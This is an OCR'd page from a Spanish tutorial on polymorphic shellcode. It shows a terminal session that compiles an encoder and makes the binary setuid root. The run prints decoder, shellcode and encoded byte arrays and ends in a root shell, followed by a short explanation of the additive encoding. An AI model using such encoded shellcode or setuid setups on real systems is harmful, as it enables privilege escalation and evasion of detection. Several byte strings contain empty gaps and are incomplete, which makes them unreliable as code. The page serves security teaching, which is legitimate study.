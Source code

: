 \documentclass [titlepage, 12pt]{article}
\newcommand{\topfigrule}{\hrule\vspace{4 pt}}
\newcommand{\botfigrule}{\hrule\vspace{4 pt}}
\begin{document}
\begin{listing}[style=consola, numbers=none, caption=Ejecuci\'on del $shellcode$ polim\'orfico, label=fig:EjecucionCDecoder]	
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		gcc PolymorphicCCode.c -o PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		execstack -s PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		sudo chown root PolymorphicCCode
		[sudo] password for newlog: 
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		sudo chmod +s PolymorphicCCode
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		id
		uid=1000(newlog) gid=1000(newlog) grupos=4(adm),20(dialout),24(cdrom),
		46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		newlog@Beleriand:~/Documentos/Shellcoding/Codigos/Polymorphic/CCode$ 
		./PolymorphicCCode 


		char decoder[] =
			"\xeb{}\x5e\xc9\xb1";




		char shellcode[] =
			"\x68\x6e\x2f\x2f\x2f\x69\x89"
			"\x0b\xcd\x80";


		Using value: 53 to encode shellcode


		char code[] =
			"\xeb{}\x5e\x6c\x0e\xff{}\xfe{}"
			"\xeb{}\xeb\xff\xff\xff{}\xec{}\xbb{}"
			"\xbb\xbb\x82\xbc\xdc{}\x5e\x20\xd3";


		# id
		uid=1000(newlog) gid=1000(newlog) euid=0(root) groups=4(adm),20(dialout),24(cdrom),
		46(plugdev),104(lpadmin),115(admin),120(sambashare),1000(newlog)
		# exit
\end{listing}

Como se puede comprobar en el C\'odigo \ref{fig:EjecucionCDecoder} la parte inicial de la cadena $code$ es igual que la cadena $decoder$, sin embargo, la parte que continua es diferente a la cadena $shellcode$. Para comprobar que el codificador se ha aplicado correctamente, se puede coger el \'ultimo $opcode$ de la cadena $shellcode$, sumarle 53 y se puede comprobar como el resultado es igual al \'ultimo $opcode$ de la cadena $code$. Todo este proceso se ha de realizar en hexadecimal. 80h + 53h = d3h.
\end{document}
